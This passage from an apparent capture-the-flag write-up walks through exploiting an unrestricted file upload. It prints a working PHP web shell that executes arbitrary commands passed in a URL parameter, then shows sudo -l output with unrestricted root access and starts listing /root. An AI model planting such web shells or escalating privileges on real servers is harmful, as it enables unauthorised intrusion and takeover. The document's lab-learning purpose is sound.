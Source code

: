 - It took that as upload and stored in /uploads/filename format.
- If you go there and see, it just shows the content inside the file.

### Upload a web shell

- From [Revshells.com](https://www.revshells.com/), i have brought a shell of PHP

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>

```

- Now, save this like script.php and upload it in the site and visit that page.
- You will be able to see a input box.

Bang! we have got a reverse shell,

Now execute any linux commands, if we are restricted, we have to look for executable files for Priv-esc. As said in the description of the challenge.

```bash
sudo -l
```

```bash
Matching Defaults entries for www-data on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
```

This means that we have no restrictions and can use sudo as prefix of normal commands and do our work.

now, list the items in /root

```bash
sudo ls -l /root
```
